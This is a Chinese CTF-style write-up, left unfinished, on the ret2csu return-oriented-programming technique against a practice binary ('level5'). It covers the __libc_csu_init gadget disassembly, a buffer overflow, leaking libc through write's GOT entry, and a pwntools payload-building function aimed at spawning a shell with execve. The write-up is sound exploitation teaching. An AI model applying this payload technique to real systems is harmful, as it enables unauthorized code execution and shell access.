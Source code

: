 * 简介
选择中级 ROP 里的 ret2csu 。

* 思路
主要利用的是 libc 里的 libc_csu_init 函数，这个函数是用来初始化 libc 的，并且方便反弹 shell 的 system 和 execve 等函数都在 libc 里，且大部分应用程序都会调用 libc 里的函数。

所以最基本的思路就是通过 target 里调用的 libc 函数来定位到 libc 里其他函数的地址，比如 execve ，之后再构造需要反弹的 shell 之类的参数，通过栈移出到 ret_addr 那里来执行。

* 设计

** __libc_csu_init 函数的利用
查阅资料得知，该函数有一段代码可以设置 x86_64 中三个用于传递参数的寄存器 rsi rdx 和  rdi ，在 level5 这个 elf 文件中，该代码片段如下：
#+BEGIN_SRC
0x00400600      4c89ea         mov rdx, r13      ; 将r13的值（原来的arg3）复制到rdx
0x00400603      4c89f6         mov rsi, r14      ; 将r14的值（原来的arg2）复制到rsi
0x00400606      4489ff         mov edi, r15d     ; 将r15d的值（原来的arg1）复制到edi
0x00400609      41ff14dc       call qword [r12 + rbx*8] ; 通过[r12 + rbx*8]计算得到的地址调用函数，rbx是索引，每次迭代增加8
0x0040060d      4883c301       add rbx, 1        ; 将rbx加1，指向下一个函数指针
0x00400611      4839eb         cmp rbx, rbp      ; 比较rbx和rbp，检查是否已经遍历了整个数组
0x00400614      75ea           jne 0x400600      ; 如果rbx < rbp，意味着还没调用完所有函数，跳回0x400600继续循环
#+END_SRC

** payload 构造基本思路

查看 vulnerable 函数如下，其中缓冲区大小为128，但是 read 的参数为0x200, 是512，明显比分配的缓冲区要大，所以通过向这个 read 函数输入构造的 payload 来实现攻击。

#+BEGIN_IMAGE
[[file:writeup/20231104_133920.png]]
#+END_IMAGE

通过查看汇编代码，发现缓冲区地址为 ~rbp-0x80~ 。

#+BEGIN_IMAGE
[[file:writeup/20231104_135704.png]]
#+END_IMAGE

因此 payload 的构造需要先填充这128和 rdp 的位置 ~p64(0x00*136)~ 。

之后，查看 __libc_csu_init 中可以利用的 gadget 为 0x0040061a ，于是 payload 的下一步为 ~p64(0x0040061a)~

#+BEGIN_IMAGE
[[file:writeup/20231104_152237.png]]
#+END_IMAGE

之后就是填充栈的地址，完成 rbx rbp ret 关键数据的填充。

再之后就是需要 ret 的地址，开始执行代码，这里是 ret 到 ~call qword [r12 + rbx*8]~ 这一行进行 call 操作。

call 操作完成后，ret 会返回到原来的指令，如下：

#+BEGIN_IMAGE
[[file:writeup/20231104_161424.png]]
#+END_IMAGE

算上 ret 共弹出了 7*8 个字节，所以需要一个 56 字节的填充数据。

最后返回 main 函数方便下一步操作。

所以一个 libc_csu_init 的利用函数如下 (GPT 辅助生成的):

#+BEGIN_SRC python
  def craft_ret2csu_payload(buf_size, csu_gadget_addr, func_gadget_addr, func_to_call, rdi, rsi, rdx, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0, extra_padding=b'', next_func_addr=None):
      """
      Craft a ret2csu payload to control the registers and call a function.

      :param buf_size: The size of the buffer before the return address.
      :param csu_gadget_addr: The address of the csu gadget.
      :param func_gadget_addr: The address of the function call gadget.
      :param func_to_call: The function to call, usually GOT entry of a function.
      :param rdi: The value to set in RDI before the function call.
      :param rsi: The value to set in RSI before the function call.
      :param rdx: The value to set in RDX before the function call.
      :param rbx: The value to set in RBX, if needed for the csu gadget.
      :param rbp: The value to set in RBP, if needed for the csu gadget.
      :param r12: The value to set in R12, which should be the function to call minus the offset.
      :param r13: The value to set in R13 (RDI).
      :param r14: The value to set in R14 (RSI).
      :param r15: The value to set in R15 (RDX).
      :param extra_padding: Any extra padding if needed after the csu gadgets.
      :param next_func_addr: The address to return to after the function call (e.g., main).
      :return: The constructed payload.
      """
      from pwn import p64

      # Create padding to reach the return address
      payload = b"A" * buf_size

      # Add the csu_gadget_addr
      payload += p64(csu_gadget_addr)

      # Setup values for the CSU gadget
      # It's important to note that the actual registers are not yet set. This is simply putting values on the stack
      # that will be popped into registers by the CSU gadget.
      payload += p64(rbx)
      payload += p64(rbp)
      payload += p64(r12) # This will be the location to call, plus the appropriate offset
      payload += p64(r13) # Becomes RDI
      payload += p64(r14) # Becomes RSI
      payload += p64(r15) # Becomes RDX

      # Add the func_gadget_addr which will call the function [r12+rbx*8]
      payload += p64(func_gadget_addr)

      # Add extra padding if necessary to align the stack correctly
      payload += extra_padding

      # Finally, add the address of the function to call if necessary
      if next_func_addr:
          payload += p64(next_func_addr)

      return payload

#+END_SRC

询问 GPT 得到以下的栈布局结构：

#+BEGIN_IMAGE
[[file:writeup/20231104_132341.png]]
#+END_IMAGE

** 获取 libc.so 的版本
获取 libc 版本前需要先分清楚一个函数的真实地址和其在 libc.so 中的地址的区别。

+ libc.so 中的地址：就是函数在 libc.so 中的地址，这个地址是不变的。
+ 真实地址：程序执行时，函数在内存中的地址，程序基址+偏移量。

由此，通过程序执行时 csu 的利用，可以获得一个函数在 libc.so 中的地址，由此确定 libc.so 的版本号和在程序中的地址，进一步确定目标函数 (如execve, system) 等函数的具体地址。

通过反编译 level5 这个程序可以看出，它使用了 write 和 read 两个函数。

#+BEGIN_IMAGE
[[file:writeup/20231103_153707.png]]
#+END_IMAGE

#+BEGIN_IMAGE
[[file:writeup/20231103_153742.png]]
#+END_IMAGE

于是可以通过这两个函数的地址来确定 libc 的版本等信息。


* 流程

基本流程如下：

1. 第一次利用 csu ，获取 write 相对 GTO 的地址偏移量，确定 libc 的版本，从而获取 execve 的地址偏移量。
2. 第二次利用 csu ，把 execve 地址和 "/bin/sh"  写入 .bss 段。
3. 最后一次利用 csu ，执行 execve 反弹 shell ，完成 ROP 利用。

** 第一次利用
需要执行的目标函数 :write ，输出 write 在内存中的地址偏移量，并以此找到 libc 的版本。

因此各个寄存器数据填充为：
1. rbx = 0 ; 为了计算 call qword [r12 + rbx*8] ，这里置为0
2. rbp = 1 ; 和 rbx 不一样，让下面的 jne 不跳转。
3. r12 = write.got ; call 指令所调用的地址，这里要把内存地址给 write 到标准输出，所以这个需要是 write.got
4. r13 = 1 ; write 的第一个参数，1 为标准输出
5. r14 = write.got ; write 函数的 GOT 地址
6. r15 = 8 ; wirte 函数的第三个参数，输出 8 个字节。
7. ret = main ; main 函数地址，返回到 main 继续执行，方便之后利用

** 第二次利用

** 第三次利用

* tip

不能把静态调试的指令地址和实际执行的数据地址弄混，栈之类的数据都是运行时在内存里随机分配的，没法直接操作，并且向 r12 rbx 这种寄存器也是通过溢出所操作不了的，而 __libc_csu_init 能利用的原因就是因为上文提到的 gadget ，他从栈里弹数据写道寄存器里，这就给了我们操作的空间。

ret 指令：在 x64 机器中，弹出8个字节的数据，并作为地址返回开始执行上面的指令许列，这里的重点也是从栈上弹出地址，操作栈就可以劫持控制流。

* 工具
- radare2
